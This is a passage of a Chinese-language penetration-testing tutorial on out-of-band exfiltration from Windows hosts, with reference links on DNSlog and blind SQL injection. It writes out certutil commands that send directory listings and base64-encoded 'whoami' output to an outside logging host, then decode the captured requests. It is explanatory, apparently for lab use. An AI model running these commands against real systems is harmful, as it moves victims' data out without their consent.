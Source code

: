 `for /F %x in ('dir /b') do certutil.exe -urlcache -split -f https://www.dark5.net/%x` #只列出文件名


**windows下的base64编码**

*暂时未找到能直接像Linux那样可以通过管道来加密的，但通过多次命令的执行达到先base64加密，再做HTTP请求*
```
whoami > result.txt
certutil -encode result.txt result_bs64
for /f %x in (result_bs64) do certutil.exe -urlcache -split -f http://dvwa.dark5.net/%x
```

![](https://www.github.com/52stu/Images/raw/master/小书匠/1572108688380.png)


*每一个请求都会出现两个请求日志，所以要去重复！* 并把结果保存为`result_bs64_local`
```
ZGVza3RvcC1xOTl1dHJzXGhhY2tlcg0K
```

然后再把这个`result_bs64_local`里面加密的文件内容解密，命令为：`certutil -decode result_bs64_local result_local.txt`

![](https://www.github.com/52stu/Images/raw/master/小书匠/1572108884909.png)

![](https://www.github.com/52stu/Images/raw/master/小书匠/1572109060661.png)


## 参考
[dnslog利用](http://byd.dropsec.xyz/2016/12/04/dnslog%E5%88%A9%E7%94%A8/)

[Dnslog在SQL注入中的实战](https://www.anquanke.com/post/id/98096)

[突破延迟注入和盲注速度限制，利用dns注入快速获取数据](https://phpinfo.me/2016/05/10/1210.html)

[sqlmap利用DNS进行oob(out of band)注入（转）](https://www.cnblogs.com/backlion/p/8984121.html)


[渗透技巧-mssql盲注与dnslog的完美结合(命令执行)](http://lawlietweb.com/2019/01/11/mssql%E7%9B%B2%E6%B3%A8%E4%B8%8Ednslog%E7%9A%84%E5%AE%8C%E7%BE%8E%E7%BB%93%E5%90%88(%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)/)

[HawkEye Log/Dns 在Sql注入中的应用](http://docs.hackinglab.cn/HawkEye-Log-Dns-Sqli.html)

[Oracle注入之带外通信](https://www.cnblogs.com/-qing-/p/10952341.html)

[带外通道技术（OOB）总结](https://www.freebuf.com/articles/web/201013.html)

[DNSLOG使用技巧](http://www.tiaozhanziwo.com/archives/851.html)

[Godaddy域名如何设置为DNS服务器来使用？](https://www.dns.com/supports/989.html)